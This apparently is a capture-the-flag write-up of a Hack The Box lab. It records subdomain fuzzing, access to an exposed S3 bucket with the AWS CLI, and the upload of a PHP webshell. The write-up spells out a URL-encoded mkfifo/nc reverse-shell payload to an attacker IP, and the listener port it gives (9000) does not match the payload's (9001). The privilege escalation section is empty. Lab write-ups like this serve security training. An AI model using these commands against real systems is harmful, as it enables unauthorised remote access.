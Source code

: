 # Overview
**Difficulty:** Very Easy  
**Skills:** subdomain discovery, aws cli, webshell, remote code execution
**HTB Link:** https://app.hackthebox.com/starting-point  
**Summary:** Discovered an S3-hosted web entry, uploaded a PHP webshell and triggered a reverse shell to gain foothold.

---

# Steps

## 1. reconnaissance
**port scan**
- [nmap scan](./evidences/nmap.txt)
- OpenSSH 7.6p1 22/tcp
- Apache web server on port 80/tcp

**subdomain discovery**
- [ffuf fuzzing](./evidences/ffuf.txt)
- s3 bucket subdomain

**aws s3 ls**
- [aws s3 ls](./evidences/aws_ls.png)
- aws configure (with random values)
- aws --endpoint=http://s3.thetoppers.htb s3 ls
- aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

## 2. resource development
**php script**
- [php script](./shell.php)
- aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
- upload to webpage php script to execute code to server
**listening socket**
- nc -nvlp 9000
- this socket will get the reverse shell

## 3. initial access
**remote code execution**
- http://thetoppers.htb/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.121%209001%20%3E%2Ftmp%2Ff
- we execute the reverse shell and gain access to the system
- cat /var/www/flag.txt

## 4. privilege escalation
